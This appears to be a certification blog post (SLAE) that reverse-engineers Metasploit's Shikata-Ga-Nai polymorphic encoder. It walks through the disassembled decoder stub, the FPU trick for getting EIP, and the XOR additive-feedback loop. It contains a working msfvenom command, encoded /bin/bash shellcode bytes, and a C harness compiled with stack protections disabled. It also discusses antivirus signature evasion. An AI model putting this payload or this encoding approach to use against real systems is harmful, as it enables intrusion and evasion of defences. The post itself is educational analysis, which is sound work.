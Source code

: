 ```yaml
---
layout: post
title: Shikata-Ga-Nai encoder
categories: [re,exploit]
tags: [slae, osce]
fullview: false
comments: true
---
```

> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
> Student ID: SLAE-1228

![it cannot be helped...](https://ih0.redbubble.net/image.464182666.3336/flat,550x550,075,f.u2.jpg)

While I was doing my SLAE certification I bumped into the infamous Shikata-Ga-Nai during an [assignment](). The objective in that task was to analyse a msfvenom shellcode (3 actually), so I picked this one:

```
# msfvenom -a x86 --platform linux -p linux/x86/exec CMD="/bin/bash" -b '\x00' -f c
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 72 (iteration=0)
x86/shikata_ga_nai chosen with final size 72
Payload size: 72 bytes
Final size of c file: 327 bytes

"\xda\xdb\xd9\x74\x24\xf4\x5a\xbe\x05\x26\x9f\xe4\x2b\xc9\xb1"
"\x0c\x31\x72\x18\x83\xea\xfc\x03\x72\x11\xc4\x6a\x8e\x12\x50"
"\x0c\x1d\x42\x08\x03\xc1\x03\x2f\x33\x2a\x60\xd8\xc4\x5c\xa9"
"\x7a\xac\xf2\x3c\x99\x7c\xe3\x34\x5e\x81\xf3\x67\x3c\xe8\x9d"
"\x58\xa2\x8b\x12\xce\x22\x1b\x86\x87\xc2\x6e\xa8";
```

We can copy this output into `shellcode.hex` and use the following one-liner to generate the CFG image:

    $ cat shellcode.hex | tr -d '\\\x' | xxd -r -p | sctest -vvv -Ss 99999 -G shellcode.dot; dot -Tpng -o shellcode.png shellcode.dot

The output is:

![shikata_assignment]({{ "/assets/media/exec_no_null.png" | absolute_url }})

For this post I decided to generate a new shellcode using the very same command.

```
# msfvenom -a x86 --platform linux -p linux/x86/exec CMD="/bin/bash" -b '\x00' -f c
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 72 (iteration=0)
x86/shikata_ga_nai chosen with final size 72
Payload size: 72 bytes
Final size of c file: 327 bytes

"\xda\xdb\xd9\x74\x24\xf4\x5a\xbe\x05\x26\x9f\xe4\x2b\xc9\xb1"
"\x0c\x31\x72\x18\x83\xea\xfc\x03\x72\x11\xc4\x6a\x8e\x12\x50"
"\x0c\x1d\x42\x08\x03\xc1\x03\x2f\x33\x2a\x60\xd8\xc4\x5c\xa9"
"\x7a\xac\xf2\x3c\x99\x7c\xe3\x34\x5e\x81\xf3\x67\x3c\xe8\x9d"
"\x58\xa2\x8b\x12\xce\x22\x1b\x86\x87\xc2\x6e\xa8";
```

Generating the CFG image once again and we get:

![shikata CFG]({{ "/assets/media/shikata_cfg.png" | absolute_url }})

You can spot some differences, which I will explore in the rest of this post.

I also wanted to be able to debug this shellcode, so I generated an executable using the shellcode tester skelleton:

```
#include <stdio.h>

unsigned char buf[] = 
"\xda\xdb\xd9\x74\x24\xf4\x5a\xbe\x05\x26\x9f\xe4\x2b\xc9\xb1"
"\x0c\x31\x72\x18\x83\xea\xfc\x03\x72\x11\xc4\x6a\x8e\x12\x50"
"\x0c\x1d\x42\x08\x03\xc1\x03\x2f\x33\x2a\x60\xd8\xc4\x5c\xa9"
"\x7a\xac\xf2\x3c\x99\x7c\xe3\x34\x5e\x81\xf3\x67\x3c\xe8\x9d"
"\x58\xa2\x8b\x12\xce\x22\x1b\x86\x87\xc2\x6e\xa8";
 
 int main(){
     int (*ret)();
     ret = (int(*)())buf;
     ret();
 
     return 0;
 }
```

Compiling it with:

	$ gcc -m32 -z execstack -fno-stack-protector test.c -o test


## Shikata-Ga-Nai

One of the best sources I have found about this encoder is [this paper](http://mason.gmu.edu/~rfarley3/2014-ISC-CodeXt.pdf)

```
Shikata-Ga-Nai  is  a  polymorphic  xor  additive  feedback  encoder within the Metasploit Framework. This encoder offers three features that provide  advanced  protection  when  combined.  First,  the  decoder  stub  generator uses metamorphic techniques, through code reordering and substitution, to produce  different  output  each  time  it  is  used,  in  an  effort  to  avoid  signature recognition. Second, it uses a chained self modifying key through additive feedback. This means that if the decoding input or keys are incorrect at any iteration then all subsequent output will be incorrect. Third, the decoder stub is itself partially obfuscated via self-modifying of the current basic block as well as armored against emulation using FPU instructions.
```

The core algorithm is:

1. Define a key
2. Get EIP using FPU instructions
3. Enter a loop with predefined counter
4. For each interation:
    * Change a future instruction (EIP+0xf) by XORing it with the key
    * Change the key by adding it with the result of the modified instruction

Lets analyse the instructions of the decoder line by line. You can also use the CFG image above to make things clearer:

```
00002040 <buf>:
    2040:	da db                	fcmovu st,st(3)
    2042:	d9 74 24 f4          	fnstenv [esp-0xc]
    2046:	5a                   	pop    edx
    2047:	be 05 26 9f e4       	mov    esi,0xe49f2605
    204c:	2b c9                	sub    ecx,ecx
    204e:	b1 0c                	mov    cl,0xc
    2050:	31 72 18             	xor    DWORD PTR [edx+0x18],esi
    2053:	83 ea fc             	sub    edx,0xfffffffc
    2056:	03 72 11             	add    esi,DWORD PTR [edx+0x11]
    2059:	c4 6a 8e             	les    ebp,FWORD PTR [edx-0x72]
    205c:	12 50 0c             	adc    dl,BYTE PTR [eax+0xc]
    205f:	1d 42 08 03 c1       	sbb    eax,0xc1030842
    2064:	03 2f                	add    ebp,DWORD PTR [edi]
    2066:	33 2a                	xor    ebp,DWORD PTR [edx]
    2068:	60                   	pusha  
    2069:	d8 c4                	fadd   st,st(4)
    206b:	5c                   	pop    esp
    206c:	a9 7a ac f2 3c       	test   eax,0x3cf2ac7a
    2071:	99                   	cdq    
    2072:	7c e3                	jl     2057 <buf+0x17>
    2074:	34 5e                	xor    al,0x5e
    2076:	81 f3 67 3c e8 9d    	xor    ebx,0x9de83c67
    207c:	58                   	pop    eax
    207d:	a2 8b 12 ce 22       	mov    ds:0x22ce128b,al
    2082:	1b 86 87 c2 6e a8    	sbb    eax,DWORD PTR [esi-0x57913d79]
```

The first block:

```
fcmovu st,st(3)
fnstenv [esp-0xc]
pop    edx
```

Is an elegant way to grap EIP using FPU instructions. There are other ways to get EIP, as you can see [here](https://danielebellavista.blogspot.com/2014/10/ia32-shellcodes-get-eip-value.html). As stated in the IA32 reference, the instruction FNSTENV:

```
Saves the current FPU operating environment at the memory location specified with the destination operand, and then masks all floating-point exceptions. The FPU operating environment consists of the FPU control word, status word, tag word, instruction pointer, data pointer, and last opcode.
```

So `fnstenv` saves, among other things, the address of the previous FPU instruction. Finally, this address is popped into `edx`, which from now stores EIP. Indeed, you can confirm it with a debugger:

![FPU get EIP]({{ "/assets/media/fpu_eip.png" | absolute_url }})

The following instruction:

    mov    esi,0xe49f2605

Saves the key into `esi`. Next we have:

```
sub    ecx,ecx
mov    cl,0xc
```

Which clears `ecx` out and stores 0xc in it. This will be the loop counter.

Now we enter the loop, which consists of 3 main instructions:

```
xor    DWORD PTR [edx+0x18],esi
sub    edx,0xfffffffc
add    esi,DWORD PTR [edx+0x11]
```

The first line of this block XORs `[edx+0x18]` with `esi`, the key. If we check in the debugger we see that [edx+0x18] corresponds to <buf+24>, the first instruction after the decoder.

![Shikata XOR]({{ "/assets/media/shikata_xor.png" | absolute_url }})

So we are effectively decoding the shellcode here.

The third line finishes the magic by changing the key. The intersting thing about shikata-ga-nai is that each instruction of our shellcode is encoded with a **different** key.

Once the loop is finished, all the work is done and the shellcode is decoded!

![Decoded instructions]({{ "/assets/media/shikata_decoded.png" | absolute_url }})

## Polymorphic and metamorphich code
One of the simplest ways for an AV to detect a shellcode (or any kind of malware indeed) is to check for patterns, aka signatures. It might take the hash of a certain suspicious file and compare it to a hash database of known malicious files. Self-modifying code came as a way to bypass those simple inspections, polymorphism and metamorphism being two variants of this technique.

According to [this](http://nnt.es/Hunting%20for%20Metamorphic%20Engines.pdf) paper:

    To overcome the problem of encryption, namely, the fact that the decryptor code is detectable, virus writers have implemented techniques to create mutated decryptors. Polymorphic viruses can change their decryptor code in each generation. They can generate a large number of distinct decryptors which can even use different encryption method to encrypt the virus body.

And also:

    Software is said to be metamorphic provided that copies of the software are all functionally equivalent, but their internal structure differs.

The difference between them is that while polymorphic code changes the code but keeps the same result, metamorphic code changes itself, resulting in a slightly different version of itself. For instance, a malware that encrypts itself might be a polymorphic one, since changing the key results in different encoded instructions, but when decrypting the results goes back to the same set of instructions. A metamorphic malware would be a more sophisticated one, comprising also auto-mutation features, besides polymorphism, resulting in a different set of instructions after decoding.

As we have seen before, Shikata-Ga-Nai is a polymorphic encoder. Indeed, changing the key results in different versions of encrypted code, which produce the same code after decoding.

Some features of this encoder besides the XOR additive feedback:

* Permuting use registers (key was stored in esi in this example, but in edi in the example used for the assignment)
* Instruction reordering (XORing was done before changing the key this time, but not in the example used for the assignment)
